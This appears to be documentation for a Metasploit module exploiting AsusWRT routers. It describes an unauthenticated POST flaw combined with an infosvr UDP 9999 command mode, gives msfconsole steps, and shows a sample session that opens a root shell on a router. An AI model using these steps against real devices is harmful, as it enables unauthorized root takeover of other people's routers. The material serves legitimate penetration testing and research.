 ## Description

  This module exploits a vulnerability in AsusWRT to execute arbitrary commands as `root`.


## Vulnerable Application

  The HTTP server in AsusWRT has a flaw where it allows an unauthenticated client to perform a HTTP `POST` in certain cases. This can be combined with another vulnerability in the VPN configuration upload routine that sets NVRAM configuration variables directly from the `POST` request to enable a special command mode.

  This command mode can then be abused by sending a UDP packet to the infosvr service, which is running on port UDP 9999 on the LAN interface, to launch the Telnet daemon on a random port and gain an interactive remote shell as the `root` user.

  This module was tested successfully with a RT-AC68U running AsusWRT version 3.0.0.4.380.7743.

  Numerous ASUS models are reportedly affected, but untested.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploits/linux/http/asuswrt_lan_rce`
  3. `set RHOST [IP]`
  4. `run`
  5. You should get a *root* session


## Options

### ASUSWRTPORT

  AsusWRT HTTP portal port (default: `80`)


## Scenarios
msf > use exploit/linux/http/asuswrt_lan_rce
msf exploit(linux/http/asuswrt_lan_rce) > set rhost 192.168.132.205
rhost => 192.168.132.205
msf exploit(linux/http/asuswrt_lan_rce) > run

[+] 192.168.132.205:9999 - Successfully set the ateCommand_flag variable.
[*] 192.168.132.205:9999 - Packet sent, let's sleep 10 seconds and try to connect to the router on port 51332
[+] 192.168.132.205:9999 - Success, shell incoming!
[*] Found shell.
[*] Command shell session 1 opened (192.168.135.111:36597 -> 192.168.132.205:51332) at 2018-01-25 14:51:12 -0600

id
id
/bin/sh: id: not found
/ # cat /proc/cpuinfo
cat /proc/cpuinfo
system type             : Broadcom BCM53572 chip rev 1 pkg 8
processor               : 0
cpu model               : MIPS 74K V4.9
BogoMIPS                : 149.91
wait instruction        : no
microsecond timers      : yes
tlb_entries             : 32
extra interrupt vector  : no
hardware watchpoint     : yes
ASEs implemented        : mips16 dsp
shadow register sets    : 1
VCED exceptions         : not available
VCEI exceptions         : not available

unaligned_instructions  : 0
dcache hits             : 2147483648
dcache misses           : 0
icache hits             : 2147483648
icache misses           : 0
instructions            : 2147483648
/ #
